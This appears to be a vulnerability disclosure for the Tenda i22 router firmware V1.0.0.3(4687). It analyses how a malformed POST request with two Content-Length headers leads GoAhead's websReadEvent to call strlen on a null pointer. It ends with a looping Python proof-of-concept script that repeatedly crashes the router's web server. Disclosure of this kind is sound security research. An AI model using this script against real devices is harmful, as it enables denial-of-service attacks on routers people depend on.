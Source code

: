 # Overview
Details of the vulnerability found in the tenda router i22 V1.0.0.3 (4687).

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| i22    | V1.0.0.3(4687)    | https://www.tenda.com.cn/download/detail-2747.html   |




# Vulnerability details
## Vulnerability trigger Location
The following vulnerability analysis and explanation are based on the i22 router with  firmware version `V1.0.0.3(4687)`.

For easier analysis, I referred to the GoAhead 2.5 source code on https://github.com/ehlalwayoUk/goahead/tree/master and modified the variable names accordingly in Ghidra. The vulnerability trigger location is at the `strlen` function call within the `websReadEvent` function, at address 0x24640.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Conditions to Satisfy
- In the websUrlParse function, the `?` in POST /goform/GetIPTV?fgHPOST/goform/SysToo allows `strchr` at `0x1b588` to get the index of the ?. Referring to the GoAhead source code, it can be seen that the information after `?` is stored in `wp->query`. ![websUrlParse](./assets/2.png) ![websUrlParse](./assets/3.png) 

- **Content-Length** must be written twice.
    - The first `Content-Length` should be `>= 1`. This is necessary to set `param_1 + 0xd8(wp->flags) |= 0x400` and call `websSetVar`  to set `CONTENT_LENGTH` value.
    ![else_content_length](./assets/4.png)
    - The second `Content-Length` is to set `clen = 0`. It set `param_1 + 0xe0 = 0`.
- After that, an empty line (`\r\n`) is needed to ensure the final `buf` is empty.In the `socketGets` function, reading an isolated \r\n sets `nbytes = 0`, and as a result, `*buf = 0`. The corresponding assembly location is at `0x17818`.![socketGets](./assets/5.png)

- Due to conditions such as nbytes = 0 being met, wp->state([wp[0x35]]) = 8 is finally set in the websGetInput function at address 0x24c00.![wp_state_8](./assets/6.png)

- At the address 0x24524 of the websReadEvent function, the wp->state([wp[0x35]]) will be switched, and the value of wp->state([wp[0x35]]) is 8, so the operation flow will eventually come to the LAB_000245d0. ![7](./assets/7.png) ![8](./assets/8.png)

- As a result, in the `websReadEvent` function, because `wp->state = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.![ivar2_8](./assets/9.png)

# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```

# Vulnerability Verification Screenshot
##  I22 &nbsp;&nbsp; V1.0.0.3 (4687)
![10.png](./assets/10.png)

# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.